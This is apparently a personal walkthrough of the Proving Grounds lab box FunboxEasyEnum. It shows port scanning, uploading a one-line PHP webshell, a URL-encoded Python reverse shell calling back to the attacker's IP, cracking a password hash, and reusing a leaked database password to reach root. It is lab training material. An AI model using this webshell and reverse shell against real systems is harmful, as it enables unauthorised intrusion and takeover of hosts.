 # PG Play - FunboxEasyEnum

#### Ip: 10.129.30.102
#### Name: FunboxEasyEnum
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 192.168.182.132
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-22 14:27 CDT
Nmap scan report for 192.168.182.132
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c52325b8bf638c77fa1b704854954f3 (RSA)
|   256 d6135606153624ad655e7aa18ce564f4 (ECDSA)
|_  256 1ba9f35ad05183183a23ddc4a9be59f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.91 seconds                                                          
```

SCanning for idrectories we find `/mini.php`

![pg_fbee_dirs.png](../assets/funboxeasyenum_assets/pg_fbee_dirs.png)

![pg_fbee_mini.png](../assets/funboxeasyenum_assets/pg_fbee_mini.png)

We can upload a simple webshell:

```php
<?php system($_GET["cmd"]); ?>
```

![pg_fbee_cmd.png](../assets/funboxeasyenum_assets/pg_fbee_cmd.png)

And confirm execution

![pg_fbee_id.png](../assets/funboxeasyenum_assets/pg_fbee_id.png)

Lets issue a python3 reverse shell one liner:

```
http://192.168.182.132/cmd.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.45.202%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

An we catch a shell back as www-data:

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.202] from (UNKNOWN) [192.168.182.132] 56982
www-data@funbox7:/var/www/html$ whoami 
whoami
www-data
www-data@funbox7:/var/www/html$ hostname
hostname
funbox7
```

We can then grab the local.txt flag in `/var/www`

![pg_fbee_local.png](../assets/funboxeasyenum_assets/pg_fbee_local.png)

### Privilege Escalation

Loading linpeas we find the password hash for user oracle, which we can crack with John:

```
╔══════════╣ Users with console
goat:x:1003:1003:,,,:/home/goat:/bin/bash
harry:x:1001:1001:,,,:/home/harry:/bin/bash
karla:x:1000:1000:karla:/home/karla:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
root:x:0:0:root:/root:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
```

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ cat >> hash                                
$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ john hash /usr/share/wordlists/rockyou.txt 
<SNIP>
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 ASIMD 4x2])
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
hiphop           (?)  
```

Yet, nothing came of being user oracle.

Going back to my original linpeas output we find a DB cred:

```
══════════╣ Searching passwords in config PHP files
/etc/phpmyadmin/config-db.php:$dbpass='tgbzhnujm!';
/etc/phpmyadmin/config-db.php:$dbuser='phpmyadmin';
```

I test for password reuse and see that user karla is also using this password:

```
oracle@funbox7:/home$ su karla
su karla
Password: tgbzhnujm!

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

karla@funbox7:/home$ whoami
whoami
karla
```

Running `sudo -l` we see that karla can run anything she wants as root:

```
karla@funbox7:/home$ sudo -l
sudo -l
[sudo] password for karla: tgbzhnujm!

Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
```

So we can run:

```
karla@funbox7:/home$ sudo su -
sudo su -
root@funbox7:~# whoami
whoami
root
```

And grab the final flag:

![pg_fbee_root.png](../assets/funboxeasyenum_assets/pg_fbee_root.png)

Thanks for following along!

-Ryan

--------------------------------------------
